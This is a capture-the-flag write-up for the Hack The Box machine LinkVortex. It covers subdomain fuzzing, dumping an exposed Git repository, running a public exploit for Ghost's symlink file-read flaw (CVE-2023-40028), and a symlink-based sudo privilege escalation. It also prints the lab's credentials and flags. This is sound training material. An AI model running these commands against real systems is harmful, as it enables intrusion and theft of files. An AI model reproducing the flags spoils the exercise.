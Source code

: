 ```yaml
---
sticker: lucide//external-link
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

Let's visit the website:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104153239.png)

We need to add `linkvortex.htb` to `/etc/hosts`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104153434.png)

Seems like a simple page, let's take a look at source code:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104153824.png)

Nothing useful, but, we know this machine has `robots.txt` so, let's check it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104162318.png)

We found useful stuff, let's begin with fuzzing


## FUZZING
---

When we try to fuzz in the standard way, we encounter that we are unable to fuzz in this way: `http://URL/FUZZ`, so, i thought we need to fuzz for subdomains instead of directories like we always do, let's use the following ffuf command: 

```ad-hint

`ffuf -c -u http://TARGET_URL/ -H "Host: FUZZ.TARGET_URL" -w /path/to/wordlist.txt -fc 301`

#### Key points

- The -fc 301 flag filters out http 301 redirects, keeping results relevant.
- Subdomain enumeration can reveal hidden environments like `subdomain.linkvortex.htb`
```


Let's fuzz:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104154221.png)

We found something interesting!

`dev.linkvortex.htb`


Also, we found `linkvortex.htb/ghost/#/signin`

Let's visit the page and start with reconnaissance

# RECONNAISSANCE
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104154412.png)

Let's use dirsearch on the `linkvortex.htb/ghost/#/signin` page, in order to find anything useful, we can use it in the following way:

```ad-hint

`python3 dirsearch.py -u linkvortex.htb -t 50 -i 200`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104162434.png)

We found the same as before, we already know this website has `ghost`, if we deep in further, we find this page has `ghost 5.58`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104162522.png)
```


Nice, now, we can use a tool called `GitHack` to read the directories from the `dev.linkvortex.htb` subdomain, let's use it like this:

```ad-hint
`python3 GitHack.py -u http://dev.linkvortex.htb/.git/`


This will attempt to download a bunch of git files, after the process is done, we can find some interesting files such as the one located at:

`dev.linkvortex.htb/ghost/core/test/regression/api/admin`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104163216.png)

We found an `authentication.test.js` file, let's read it: 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104163311.png)

We found some credentials, since this is the admin api, we must think that the email is structured in the following way: `Username@linkvortex.htb`, so, our credentials would be: 

`admin@linkvortex.htb`:`OctopiFociPilfer45`
```

Let's log into the signin site we found:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104163833.png)
# EXPLOITATION
---


Nice, we got initial access to the CMS, now, let's search for an exploit for this version, we know this site is running `ghost 5.58`:

```ad-hint

Exploit: [CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028/blob/master/CVE-2023-40028.sh)
```

For this version, we can find the `CVE-2023-40028` which states the following:

```ad-summary
CVE-2023-40028 affects Ghost, an open source content management system, where versions prior to 5.59.1 allow authenticated users to upload files that are symlinks. This can be exploited to perform an arbitrary file read of any file on the host operating system. It is recommended that site administrators check for exploitation of this issue by looking for unknown symlinks within Ghost's content/ folder. Version 5.59.1 contains a fix for this issue, and there are no known workarounds.

- CVE ID: CVE-2023-40028
- CVSS Score: 6.5 Medium
- Affected Software: Ghost versions before 5.59.1
- Fixed in Version: Ghost 5.59.1

```

So, we need an authenticated user in order to be able to use the exploit, how lucky of us, let's download it and use it in the following way:

```ad-hint

`./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45`

(We need to change the ghost url before using the script)

Once we've used it, we get the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104164435.png)

We can now read files, after i read `/etc/passwd` file, nothing useful was in it, so, after a exhausting search, I found that at `/var/lib/config.production.json` some essential info was on it, which was the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104165622.png)


```

We found some ssh credentials!: `bob@linkvortex.htb`:`fibber-talented-worth`

Let's log in and read the user flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104165752.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104165804.png)

User flag is: `5048fa21aa685472d4bb3b6dbf5e59d4`

Now, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---


### sudo -l


We can run sudo on the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104165954.png)

Let's read the file to know what we're dealing with:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104170040.png)

We can use the following in order to read root flag:

```ad-hint

1. `ln -s /root/root.txt hyh.txt`
2. `ln -s /home/bob/hyh.txt hyh.png`
3. `sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png`


### PoC

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250104170945.png)

We were able to read the root flag, which is: `dd348008c17143e2472558713ca807f1`
```

Just like that, machine is done!

